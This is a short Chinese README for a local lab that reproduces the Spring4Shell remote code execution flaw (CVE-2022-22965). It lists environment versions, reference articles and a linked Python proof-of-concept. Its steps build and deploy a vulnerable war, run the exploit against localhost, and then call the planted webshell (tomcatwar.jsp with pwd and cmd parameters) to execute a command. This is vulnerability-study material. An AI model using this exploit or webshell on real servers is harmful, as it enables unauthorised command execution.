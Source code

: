 # 演示CVE-2022-22965漏洞

## 参考资料

**[Spring 远程命令执行漏洞（CVE-2022-22965）原理分析和思考](https://paper.seebug.org/1877/)**
**[Spring4Shell简析（CVE-2022-22965）](https://zhuanlan.zhihu.com/p/498778896)**
**[python poc辅助脚本](https://github.com/BobTheShoplifter/Spring4Shell-POC/blob/0c557e85ba903c7ad6f50c0306f6c8271736c35e/poc.py)**

## 重现步骤

### 环境

** JDK 11.0.14
** tomcat 9.0.60
** springboot 2.6.3

### 操作步骤

```
# 编译war项目
mvn clean package

# 将打包后的war复制到tomcat webapps目录下

# 执行python poc辅助脚本
python3 poc.py --url http://localhost:8080/demo-spring-rce-vulnerability-1.0.0/addUser

# 使用浏览器调用webshell执行 date 命令
http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=date
```

